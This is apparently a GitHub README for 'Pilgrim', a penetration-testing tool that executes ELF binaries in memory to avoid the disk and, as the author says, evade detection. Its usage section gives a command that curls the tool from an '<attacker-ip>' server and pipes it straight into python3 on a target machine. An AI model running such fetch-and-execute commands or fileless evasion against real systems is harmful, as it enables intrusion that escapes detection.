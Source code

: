 # Pilgrim - Exec in Memory
Pilgrim is a staged python tool used to execute ELF binaries in memory without ever affecting the hard drive!
## Usage
It is best to host the pilgrim.py file in a directory alongside any ELF binaries and exploits that you plan to use during your engagement.

On your host machine, run the following:
```bash
python -m http-server
```
On the target machine, note the address of your system and run the following:
```bash
python3 <(curl http://<attacker-ip>:<port>/pilgrim.py)
```
It is wise to keep the http server open as long as necessary until you have completed execution of all of your payloads.
## Presentation
Within the repository, there is a pilgrim.pptx file explaining the process and techniques used in development of this tool! Use that if there are any issues understanding execution or for demos of my Proof of Concept!
## Outro
This is a simple project that recalls me back to a time where such a tool was not widely available and it was necessary for me to evade detection by using this method. The techniques used in Pilgrim can be expanded upon and adapted to fit any and every need in the penetration testing space with endless possibilities! Hopefully you learned something new from this, and if not I hope you approve of my style of presentation.
